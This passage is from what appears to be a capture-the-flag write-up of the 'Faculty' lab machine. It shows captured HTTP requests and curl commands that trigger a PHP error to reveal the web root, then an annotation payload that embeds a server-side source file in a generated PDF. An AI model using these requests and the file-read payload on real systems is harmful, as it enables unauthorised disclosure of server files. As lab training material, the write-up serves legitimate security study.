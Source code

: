 ## Exploiting faculty_id

If I capture that request to view my schedule in Burp we see there is a faculty_id:

```text
POST /admin/ajax.php?action=get_schecdule HTTP/1.1
Host: faculty.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 12
Origin: http://faculty.htb
Connection: close
Referer: http://faculty.htb/admin/index.php?page=schedule
Cookie: PHPSESSID=8fpk0ldu1vns710k2eafmsf3s6

faculty_id=6
```

If I try that from a terminal with curl the response isn't helpful:

```sh
┌──(root㉿kali)-[~/htb/faculty]
└─# curl -X $'POST' -b $'PHPSESSID=8fpk0ldu1vns710k2eafmsf3s6' --data-binary $'faculty_id=6' $'http://faculty.htb/admin/ajax.php?action=get_schecdule' 
[]
```

If I change the faculty_id to text it causes a fatal error:

```sh
┌──(root㉿kali)-[~/htb/faculty]
└─# curl -X $'POST' -b $'PHPSESSID=8fpk0ldu1vns710k2eafmsf3s6' --data-binary $'faculty_id=pencer' $'http://faculty.htb/admin/ajax.php?action=get_schecdule'
<br />
<b>Fatal error</b>:  Uncaught Error: Call to a member function fetch_assoc() on bool in /var/www/scheduling/admin/admin_class.php:370
Stack trace:
#0 /var/www/scheduling/admin/ajax.php(100): Action-&gt;get_schecdule()
#1 {main}
  thrown in <b>/var/www/scheduling/admin/admin_class.php</b> on line <b>370</b><br />
```

This has revealed the path to the website root. Let's grab that admin_class.php file, first here's our new payload:

```sh
<annotation file="/var/www/scheduling/admin/admin_class.php" content="/var/www/scheduling/admin/admin_class.php"  icon="Graph" title="Attached File: /var/www/scheduling/admin/admin_class.php" pos-x="195" />
```

Like before URL encode then base64 encode that payload then send to the server with curl. Retrieve the pdf, extract the attachment, and we can review that source code:
